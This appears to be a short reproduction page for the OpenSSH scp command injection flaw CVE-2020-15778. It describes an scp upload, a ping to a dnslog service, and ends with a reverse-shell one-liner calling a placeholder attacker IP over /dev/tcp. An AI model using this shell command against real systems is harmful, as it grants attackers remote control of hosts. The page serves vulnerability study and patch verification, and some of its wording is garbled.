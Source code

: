 # OpenSSH command injection vulnerability CVE-2020-15778

## Vulnerability Description

On June 9, 2020, researcher Chinmay Pandya discovered a vulnerability in Openssh, which was released on July 18. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">OpenSSH <= 8.3p1</span>

## Vulnerability reappears


</a-alert>

<br/>

The attack machine creates peiqi.txt and uses scp to upload the file to the /tmp directory.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311162457049.png)

Execute the command ping dnslog



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-6987082.png)



Just resell shell and replace the command

```plain
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```